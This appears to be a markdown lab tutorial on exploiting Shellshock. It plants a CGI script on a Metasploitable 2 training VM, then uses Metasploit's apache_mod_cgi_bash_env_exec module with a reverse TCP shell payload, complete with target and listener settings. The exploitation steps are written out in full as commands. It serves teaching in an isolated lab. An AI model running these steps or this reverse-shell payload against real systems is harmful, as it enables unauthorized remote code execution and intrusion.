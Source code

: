 # Hacking I (unprivileged permissions) 

## Todo 1: Prepare the target (metasploitable 2) 

```
# metasploitable 2 should be up and running 

# Step 1:
# als root: sudo su 
# password: msfadmin 
cd /usr/lib/cgi-bin
vi hello.sh
# --> content (#! /bin/bash will be the first line 

#! /bin/bash
echo "Content-type: text/html"
echo ""
echo "Hello world!"

# Step 2 (permissions)
chmod 755 hello.sh 

# Step 3 (test in browser of machine that can reach you metasploitable2 machine
http://192.168.10.x/cgi-bin/hello.sh 
```

## Todo 2: Proceed on kali 

```
# Connect through ssh or use desktop -> terminal as root
msfconsole 
msf>search shellshock 
msf>use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf.....>options

# We need to set the path and the ip of the target (metaploitable 2) here.
msf.....>set rhost 192.168.10.198
msf.....>set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

# Now we need to decide for a payload 
msf.....>show payloads 
msf.....>set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

# let again check the options 
msf.....>options 

# IMPORTANT: If you have 2 network interfaces, you need to set the right one 
msf.....>set lhost 192.168.10.169

# now let's try if it would work 
msf....>check 

# now let's exploit
msf....>exploit

# Try to get some info now 
whoami 

# Yes, we are successful
```

## Ref: (normal privileges)

  * https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/


